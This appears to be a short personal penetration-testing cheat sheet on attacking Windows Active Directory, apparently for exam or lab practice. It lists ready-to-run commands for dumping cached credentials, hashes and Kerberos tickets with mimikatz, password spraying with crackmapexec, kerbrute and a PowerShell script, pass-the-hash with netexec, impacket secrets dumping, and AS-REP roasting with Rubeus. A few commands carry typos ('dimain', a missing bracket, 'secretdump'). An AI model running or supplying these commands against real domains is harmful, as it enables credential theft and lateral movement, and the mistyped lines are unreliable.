 
#### Cached AD Credentials

look for cache credentials and tickets of users who logged in in the past

tools: 
- mimikatz
```
privilege::debug

sekurlsa::logonpasswords - to dump all hashes
lsadump::sam - dump lsass and get NTLM hashes
sekurlsa::tickets - dump tickets
lsadump::lsa /patch - dumps the LM and NT password hashes

token::elevate
lsadump::secrets
```

#### Password Attacks

pass spray on the domain with current credentials

tools:
- Spray-Passwords.ps1
```
.\Spray-Passwords.ps1 -Pass <pass> -Admin
```

- crackmapexec
```
crackmapexec smb <IP> -u users.txt -p <pass> -d <domain> --continue-on-success
```

- kerbrute_windows_amd64.exe
```
.\kerbrute_windows_amd64.exe passwordspray -d <dimain .\usernames.txt "PASS"
```

- PowerView
	- use ```Find-LocalAdminAccess``` to see if you are local admin on other computers

- netexec
```
nxc smb <IP> -u <username> -H <hash> -d <domain> --continue-on-success
```

- secretdump
```
impacket-secretdump <domain>/<user>:<password>@<ip>
```

#### AS-REP Roasting / target AS-REP Roasting

abuse disable _preauthentication_ to get the hash of the user 
or if we have _GenericWrite_ or _GenericAll_ permissions on another AD user account we can disable _preauthentication_ 

tools:
- rubeus
```
.\Rubeus.exe asreproast /format:hashcat /nowrap
```

